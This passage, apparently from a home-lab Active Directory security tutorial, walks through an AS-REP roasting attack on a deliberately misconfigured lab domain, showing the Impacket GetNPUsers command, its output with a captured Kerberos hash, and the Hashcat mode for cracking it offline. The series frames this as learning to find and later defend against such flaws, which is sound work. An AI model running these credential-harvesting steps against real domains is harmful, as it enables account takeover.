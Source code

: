 ## ASREPRoasting
Assuming we have gathered a list of valid users, we can try to perform an ASREPRoast attack on the domain users to see if any account has the `Do not require Kerberos preauthentication` option set. With a valid list of users, we can use [Get-NPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required.
```bash
GetNPUsers.py CICADA.LOCAL/ -dc-ip 172.16.200.100 -no-pass -usersfile valid_users -format hashcat

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User dave.hoggins doesnt have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$winnie.wonder@CICADA.LOCAL:ab15aee9c9bd66ee5a0c56e4a30395b9$d030a2c1ab87c23f4424d1cc39f2a469353a2a7fc26c451790729a23bb9658282c7349edb3d67af46072d4b0fe36f9bc71db8d6f7e21f852c809a242c050a77fb0f6c28fb8b7b79de5c4ff60dfa84dd73792f38bf886f909fa3a206c8ac8e594b64ac2c067f4162a6a8e194e4a6fc9b11f8e0d89b0ab379511b3aeab364534fd24509441c301ce1f654bc5e9bf46892418d9ffadcf3992b9493ecdbc1ad142497dcb9323ec1ffcfc72a26efee2ec07a41998bc0a9568eda93b24e84f18abe69004d43a60da7568093f1f88202c21d3abc3078e969ddde45202865ee5af4ded1be7bddffc24da7637c5a53ec2
```

Look like we got a valid hash for the user `winnie.wonder`. We can crack the hashes offline using Hashcat with mode `18200` to find the password.

# Conclusion
The possible attack surface in an AD environment is very large so we just introduced a few misconfigurations in our home lab. We also went over on how an outsider can find these flaws to possible gain a foothold on one of our systems. In the next part of this series we will look at how we can monitor and defend against these attacks.
